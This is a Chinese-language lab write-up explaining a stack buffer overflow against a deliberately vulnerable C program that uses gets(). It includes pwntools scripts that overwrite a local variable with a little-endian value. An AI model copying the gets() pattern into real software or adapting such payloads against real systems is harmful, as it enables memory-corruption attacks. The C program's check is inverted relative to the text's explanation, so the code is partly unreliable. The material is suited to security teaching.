 ## Lab2: Stack_2
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include "c8763.c"

extern void c8763(void);
int main(int argc, char **argv)
{
  volatile int got_permissions;
  char buffer[64];

  got_permissions = 0;
  gets(buffer);

  if(got_permissions != 0xc8763) {
      c8763();
  } else {
      printf("Access Denied\n");
  }
}
```
Lab2 為 Lab1 的變形，需要把 `got_permissions` 覆蓋成 `0xc8763`，這一題主要需要注意 little endian 的問題。
```py
from pwn import *

# Start the process
p = process('./stack_2')

# Payload
payload = b'a' * 0x4c + b"\x63\x87\x0c"

# Send the input
p.sendline(payload)

# Receive the output
output = p.recvall().decode()

# Print the output
print(output)
```

這裡我們可以使用 pwntool 中的工具，將 `0xc8763` 轉換成 little endian 的格式
```py
from pwn import *

# Start the process
p = process('./stack_2')

# Payload
payload = b'a' * 0x4c + p32(0xc8763)

# Send the input
p.sendline(payload)

# Receive the output
output = p.recvall().decode()

# Print the output
print(output)
```
這裡如果我們要直接輸入，會發現到有一些字元是無法直接輸入的 (因為超出 ASCII 表的範圍，像是 `0x87`)，這邊可以看出使用 pwntools 的方便之處。

